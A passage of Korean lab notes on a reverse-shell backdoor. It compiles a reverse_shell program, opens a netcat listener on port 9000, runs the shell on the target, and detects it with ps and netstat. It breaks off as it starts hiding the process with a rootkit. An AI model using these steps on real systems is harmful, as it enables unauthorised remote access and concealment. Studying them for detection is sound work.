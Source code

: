 
  ![화면 캡처 2022-10-18 191017](../../assets/img/화면 캡처 2022-10-18 191017.png)

- 쉘 소스코드 컴파일

  ```
  [root@localhost ~]# gcc -o reverse_shell reverse_shell.c
  [root@localhost ~]# ls reverse_shell
  ```

  ![화면 캡처 2022-10-18 191517](../../assets/img/화면 캡처 2022-10-18 191517.png)

- 공격자]  nc 실행

  ```
  [root@localhost ~]# nc -l 9000
  ```

- 공격 대상] reverse_backdoor 실행

  ```
  [root@localhost ~]# ./reverse_shell
  ```

- 공격자] 공격 대상 연결 확인

  ```
  /sbin/ifconfig
  ```

  ![화면 캡처 2022-10-18 192217](../../assets/img/화면 캡처 2022-10-18 192217-1666088675046-5.png)

  > 공격자 에게  공격 대상과 연결 되면서 사용할 shell 이 제공됨  remote backdoor + shell 

- 공격대상] backdoor check

  - 프로세스 확인

    ```
    [root@localhost ~]# ps -ef
    ```

    ![화면 캡처 2022-10-18 194900](../../assets/img/화면 캡처 2022-10-18 194900.png)

    > 의심되는 프로세스 확인

  - 포트 확인

    ```
    [root@localhost 바탕화면]# netstat -antup
    ```

    ![화면 캡처 2022-10-18 194658](../../assets/img/화면 캡처 2022-10-18 194658.png)

    > PID 번호가 아까 의심했던 프로세스와 일치

- 공격대상] 실행된 프로세스를 노출시키지 않도록 은닉

  - 관련 rootkit 복사
